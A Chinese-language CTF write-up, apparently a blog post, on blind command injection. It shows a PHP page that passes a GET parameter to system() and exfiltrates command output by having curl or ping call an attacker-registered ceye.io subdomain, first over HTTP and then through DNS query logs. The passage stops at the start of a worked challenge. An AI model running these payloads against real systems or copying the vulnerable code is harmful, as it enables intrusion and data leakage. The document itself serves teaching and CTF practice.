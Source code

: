 ### 记录在http request中

题目地址

`http://192.168.10.55/`

后台源码

```php
<?php

error_reporting(0);

$a = $_GET['id'];
system("$a");
```

payload

```txt
curl http://192.168.10.55.o40fok.ceye.io/?id=`whoami`
```

```txt
curl http://10.211.55.37.7gfssd.ceye.io/?id=`whoami`
```

只能使用linux的curl访问才会成功，在浏览器直接访问时无效的。

效果

![t010db2e1c47777c52d.jpg](https://whitecell.io/upload/attach/201810/151_RB3RNNGWKAEDQHX.jpg "t010db2e1c47777c52d.jpg")

![Snipaste_2018-10-21_19-01-10.png](https://whitecell.io/upload/attach/201810/151_Y92UJMRX5GY3R5N.png "Snipaste_2018-10-21_19-01-10.png")

### 记录在dns query中

简单介绍

DNS在解析的时候是逐级解析的，并且会留下日志，所以可以将回显放在高级域名，这样在解析的时候就会将回显放在高级域名中，我们就可以在dns query中看到回显。

举个例子

在注册ceye.io之后会分配一个三级域名。就是**.ceye.io。

```txt
ping `whoami`.******.ceye.io
```

上面这条命令最终在ping的时候ping的是“root.**.ceye.io”，root就是我们构造的恶意命令执行的结果，我们把它放在四级域名这里，这样在DNS解析的时候就会记录下root这个四级域名。然后可以在ceye平台上看到我们的dns解析日志。也就看到了命令执行的回显。(个人理解，如有错误，烦请指出。)

所以这种方法的使用必须有ping命令。

---

## 真题解析

题目存在robots.txt文件，访问发现两个文件


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128
